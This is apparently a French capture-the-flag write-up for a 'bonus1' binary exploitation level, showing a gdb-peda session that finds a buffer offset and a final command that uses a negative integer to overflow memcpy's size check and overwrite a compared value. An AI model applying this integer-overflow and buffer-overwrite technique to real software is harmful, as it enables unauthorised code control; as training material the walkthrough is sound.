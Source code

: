 # Bonux 1 

- On voit que dans le code les bit sont decaler de deux pour calculer la taille
- Le premier bit d'un int sert a savoir si il est negatif ou positif
- Donc il suffit d'avoir un a deux bit(s) de la fin pour avoir un chiffre postif plus grand

<pre>
[alarmv@alarm Ressources]$ gdb ./bonus1 
gdb-peda$ pattern create 75
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA'
gdb-peda$ disass main
Dump of assembler code for function main:
   <strong>0x08048473</strong> <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
gdb-peda$ b *0x08048478
Breakpoint 1 at 0x8048478
gdb-peda$ r -2147483600 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA'
gdb-peda$ x $esp+0x3c
<strong>0xffffd54c:     "AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA"</strong>
gdb-peda$ pattern offset AA0AAFA
AA0AAFA found at offset: <strong>40</strong>
</pre>
- Il faut donc ecrire 44 caractere dans memcpy se qui fait **101100** en binaire
- Avec `<< 2` il faut que le int soit egale a **10000000000000000000000000001011** se qui fait -2147483637
- Donc on peut executé la commande ci contre
```
./bonus1 -2147483637 $(python -c "print('A' * 40 +  '\x46\x4c\x4f\x57')")
```
